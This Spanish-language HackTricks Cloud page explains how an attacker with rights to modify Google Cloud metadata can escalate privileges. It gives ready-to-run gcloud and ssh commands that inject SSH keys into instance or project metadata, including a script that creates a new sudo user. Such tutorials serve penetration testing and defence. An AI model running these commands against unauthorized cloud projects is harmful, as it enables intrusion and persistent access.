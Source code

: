 # GCP - Agregar Metadatos SSH Personalizados

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* ¡Consulta los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositorios de GitHub.

</details>
{% endhint %}

## Modificando los metadatos <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

La modificación de metadatos en una instancia podría llevar a **riesgos de seguridad significativos si un atacante obtiene los permisos necesarios**.

### **Incorporación de Claves SSH en Metadatos Personalizados**

En GCP, los **sistemas Linux** a menudo ejecutan scripts desde el [Entorno de Invitado de Linux de Python para Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts). Un componente crítico de esto es el [daemon de cuentas](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts), que está diseñado para **verificar regularmente** el punto de conexión de metadatos de la instancia en busca de **actualizaciones de las claves públicas SSH autorizadas**.

Por lo tanto, si un atacante puede modificar metadatos personalizados, podría hacer que el daemon encuentre una nueva clave pública, que será procesada e **integrada en el sistema local**. La clave se agregará al archivo `~/.ssh/authorized_keys` de un **usuario existente o potencialmente creando un nuevo usuario con privilegios `sudo`**, dependiendo del formato de la clave. Y el atacante podrá comprometer el host.

### **Agregar clave SSH a un usuario privilegiado existente**

1. **Examinar las Claves SSH Existentes en la Instancia:**
- Ejecuta el comando para describir la instancia y sus metadatos para localizar las claves SSH existentes. La sección relevante en la salida estará bajo `metadata`, específicamente la clave `ssh-keys`.
```bash
gcloud compute instances describe [INSTANCIA] --zone [ZONA]
```
- Presta atención al formato de las claves SSH: el nombre de usuario precede a la clave, separados por dos puntos.

2. **Preparar un Archivo de Texto para los Metadatos de la Clave SSH:**
- Guarda los detalles de los nombres de usuario y sus claves SSH correspondientes en un archivo de texto llamado `meta.txt`. Esto es esencial para preservar las claves existentes mientras se agregan nuevas.

3. **Generar una Nueva Clave SSH para el Usuario Objetivo (`alice` en este ejemplo):**
- Utiliza el comando `ssh-keygen` para generar una nueva clave SSH, asegurándote de que el campo de comentario (`-C`) coincida con el nombre de usuario objetivo.
```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
- Agrega la nueva clave pública a `meta.txt`, imitando el formato encontrado en los metadatos de la instancia.

4. **Actualizar los Metadatos de Clave SSH de la Instancia:**
- Aplica los metadatos de clave SSH actualizados a la instancia utilizando el comando `gcloud compute instances add-metadata`.
```bash
gcloud compute instances add-metadata [INSTANCIA] --metadata-from-file ssh-keys=meta.txt
```

5. **Acceder a la Instancia Usando la Nueva Clave SSH:**
- Conéctate a la instancia con SSH utilizando la nueva clave, accediendo al shell en el contexto del usuario objetivo (`alice` en este ejemplo).
```bash
ssh -i ./key alice@localhost
sudo id
```

### **Crear un nuevo usuario privilegiado y agregar una clave SSH**

Si no se encuentra ningún usuario interesante, es posible crear uno nuevo al que se le otorgarán privilegios `sudo`:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
### Claves SSH a nivel de proyecto <a href="#sshing-around" id="sshing-around"></a>

Es posible ampliar el alcance del acceso SSH a múltiples Máquinas Virtuales (VMs) en un entorno de nube mediante la **aplicación de claves SSH a nivel de proyecto**. Este enfoque permite el acceso SSH a cualquier instancia dentro del proyecto que no haya bloqueado explícitamente las claves SSH a nivel de proyecto. Aquí tienes una guía resumida:

1. **Aplicar Claves SSH a Nivel de Proyecto:**
- Utiliza el comando `gcloud compute project-info add-metadata` para agregar claves SSH desde `meta.txt` a los metadatos del proyecto. Esta acción asegura que las claves SSH sean reconocidas en todas las VMs del proyecto, a menos que una VM tenga habilitada la opción "Bloquear claves SSH a nivel de proyecto".
```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```

2. **Acceder a las Instancias Utilizando Claves a Nivel de Proyecto:**
- Con las claves SSH a nivel de proyecto en su lugar, puedes acceder por SSH a cualquier instancia dentro del proyecto. Las instancias que no bloquean las claves a nivel de proyecto aceptarán la clave SSH, otorgando acceso.
- Un método directo para acceder por SSH a una instancia es utilizando el comando `gcloud compute ssh [INSTANCIA]`. Este comando utiliza tu nombre de usuario actual y las claves SSH establecidas a nivel de proyecto para intentar el acceso.


# Referencias
* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)
